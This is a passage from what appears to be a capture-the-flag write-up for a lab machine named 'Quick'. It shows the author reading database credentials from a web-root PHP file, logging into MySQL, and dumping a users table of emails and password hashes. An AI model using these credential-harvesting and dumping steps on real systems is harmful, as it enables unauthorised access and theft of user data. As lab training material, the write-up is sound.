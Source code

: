 In the virtual host root directory we can find a password for the database:
```
sam@quick:/var/www/printer$ cat db.php
<?php
$conn = new mysqli("localhost","db_adm","db_p4ss","quick");
?>
```

After connecting to it with `mysql -h localhost -u db_adm -p`, let's see what
databases we can read:
```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| quick              |
| sys                |
+--------------------+
5 rows in set (0.00 sec)
```

The `quick` database looks promising:
```
mysql> use quick
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------+
| Tables_in_quick |
+-----------------+
| jobs            |
| tickets         |
| users           |
+-----------------+
3 rows in set (0.00 sec)
```

And let's get all the users:
```
mysql> select * from users;
+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | e626d51f8fbfd1124fdea88396c35d05 |
+--------------+------------------+----------------------------------+
2 rows in set (0.00 sec)
```
